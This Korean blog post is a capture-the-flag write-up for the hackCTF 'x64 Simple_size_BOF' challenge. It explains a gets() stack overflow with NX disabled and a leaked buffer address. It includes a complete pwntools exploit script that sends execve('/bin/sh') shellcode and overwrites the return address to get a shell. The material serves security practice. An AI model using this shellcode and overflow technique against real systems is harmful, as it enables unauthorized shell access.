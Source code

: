 ```yaml
---
layout: post
title:  "[hackCTF]x64 Simple_size_BOF"
date:   2020-02-18
---
```


hackCTF pwnable 여섯번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+0h] [rbp-6D30h]

  setvbuf(bss_start, 0LL, 2, 0LL);
  puts(&s); // s에 저장된 문자열을 출력한다
  printf("buf: %p\n", &v4); // v4의 주소를 출력한다
  gets(&v4); // stdin으로부터 문자열을 입력 받아 v4에 저장한다
  return 0;
}
```
<br>

정리해보자.<br><br>

***

| ret |            |
|:---:|:----------:|
| sfp |     rbp    |
| ... |            |
|  v4 | rbp-0x6D30 |

***
<br>

![0602](https://drive.google.com/uc?id=1IKf6P8UjdQnO0iOExB2Syd8_4ONi70Ve)  
NX 보호기법이 미적용되었으므로 stack에서 쉘코드를 실행시킬 수 있다.  gets로 v4에 쉘코드를 저장하고 ret을 v4의 시작주소로 덮어 문제를 해결하자.<br><br><br>
![0601](https://drive.google.com/uc?id=1OvYOaP63MM0QloMKUdMvTyWAvb09Ncue)  
이 때 ASLR 보호기법이 적용되어 파일을 실행할 때마다 주소가 변하므로 처음 v4의 주소를 출력하면 그 주소를 받아 payload를 완성해야 한다.<br><br>
목표 : 계속 변하는 v4의 주소로 ret을 덮는 payload 완성하기<br>
취약점 : gets(&v4)<br><br><br>

## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3005)

p.recvuntil("buf: ") # "buf: "까지 받는다

buf = int(p.recv(14), 16) # 14바이트를 받고 16진수로 변환하여 buf에 저장

payload = "\x90"*0x9 # nop으로 일부 채우기

payload += "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05" # 쉘코드

payload += "\x90"*(0x6D30 - 0x20 + 0x8) # sfp까지 nop으로 채우기

payload += p64(buf) # 앞에서 받은 v4의 주소(buf) 추가

p.sendline(payload)

p.interactive()
```

## 결과
![0603](https://drive.google.com/uc?id=1YE2LhE9ENLXGPJCWHLNMffHGCiNN3kcr)
